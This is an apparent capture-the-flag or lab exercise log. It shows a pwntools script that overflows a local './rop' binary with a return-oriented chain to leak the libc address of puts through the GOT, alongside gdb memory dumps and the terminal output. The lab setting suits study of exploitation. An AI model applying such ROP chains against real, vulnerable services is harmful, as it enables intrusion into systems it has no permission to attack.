```
$ 
[DEBUG] Sent 0x1 bytes:
    b'\n'
[*] Got EOF while sending in interactive
                                            
```




```
┌──(kali㉿kali)-[~/Desktop/6-Week/ROP-Pop-Pop]
└─$ python3 RPP_Pwn_2.py
[+] Starting local process '/bin/bash': pid 13737
  self._log(logging.INFO, message, args, kwargs, 'info')
[*] PÀÂ,Q\x7f
[*] puts leak - 0xa7f512cc2c050
[*] Switching to interactive mode

gef➤  $ x /10xg 0x601000
0x601000:    0x0000000000600e28    0x00007f512cde42d0
0x601010:    0x00007f512cdc3300    0x00007f512cc2cb00
0x601020 <__libc_start_main@got.plt>:    0x00007f512cbde700    0x00000000004004e6
0x601030 <gets@got.plt>:    0x00007f512cc2c050    0x00007f512cc2d2e0
0x601040:    0x0000000000000000    0x0000000000000000

```

```python
def leakPuts():
	binary = context.binary = ELF('./rop', checksec=False)
	
	# 0x00000000004006b3 : pop rdi ; ret
	popRDI = p64(0x004006b3)
	retGdgt = p64(0x004004a9)
	
	pltPuts = p64(0x4004c0)
	gotGets = p64(binary.got.gets)

	pld = cyclic(40)
	pld += retGdgt + popRDI + gotGets + pltPuts
	return pld

def testLeak():
	p = process('/bin/bash')
	p.sendline('gdb ./rop -q')
	p.sendline("set disable-randomization off")
	#p.sendline("break *0x0040064a") # Break at ret in main
	p.recv()
	p.clean(timeout=0.05)
	p.sendline("r")
	p.recvuntil("tools..")
	p.sendline(leakPuts())
	p.recvline()
	addr = p.recvline()
	log.info(addr)
	leak = u64(addr.ljust(8, b'\x00'))
	log.info("puts leak - " + hex(leak))
	p.interactive()
```
